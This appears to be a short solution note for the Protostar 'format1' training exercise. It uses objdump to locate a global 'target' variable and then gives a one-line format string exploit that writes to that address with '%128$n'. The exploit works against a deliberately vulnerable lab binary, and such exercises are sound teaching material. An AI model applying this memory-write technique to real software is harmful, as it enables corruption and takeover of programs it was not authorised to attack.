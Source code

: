 ## protostar-format1

## http://exploit-exercises.com/protostar/format1

```sh

$ objdump -t format1 | grep target
08049638 g       0 .bss    00000004            target
./format1 $(python -c 'print "\x38\x96\x04\x08"')'..%128$n'

```
